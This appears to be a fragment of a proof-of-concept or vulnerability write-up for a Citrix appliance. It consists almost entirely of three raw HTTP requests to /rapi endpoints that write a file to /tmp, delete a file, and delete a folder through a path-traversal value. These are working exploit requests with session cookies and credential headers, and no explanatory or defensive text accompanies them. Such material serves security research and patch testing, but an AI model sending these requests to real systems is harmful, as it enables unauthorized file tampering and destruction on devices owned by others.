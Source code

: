 ### Write to a file
```http
POST /rapi/uploadtext HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
DNT: 1
rand_key: 331543635.1580073639558554
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; SESSID=05afba59ef8e0e35933f3bc266941337; rdx_pagination_size=25%20Per%20Page
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 99

object={"uploadtext":{"filedir":"/tmp","filedata":"test","filename":"test.txt"}}
```

### Delete a file:
```http
POST /rapi/filedownload?filter=remove:1,path:%2ftmp%2ftest HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 2061490565.1580290269373855
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=05afba59ef8e0e35933f3bc266941337
Content-Type: application/xml
Content-Length: 31

<clipermission></clipermission>
```

### Delete a folder:
```http
POST /rapi/movelicensefiles HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
DNT: 1
Content-Type: application/x-www-form-urlencoded
Cookie: SESSID=9ed492e6ff1876d44ddcaec143d2f949
rand_key: 1384537322.1580549312074652
Content-Length: 52

object={"movelicensefiles":{"name":"../netscaler/portal/modules/STAT"}}
```
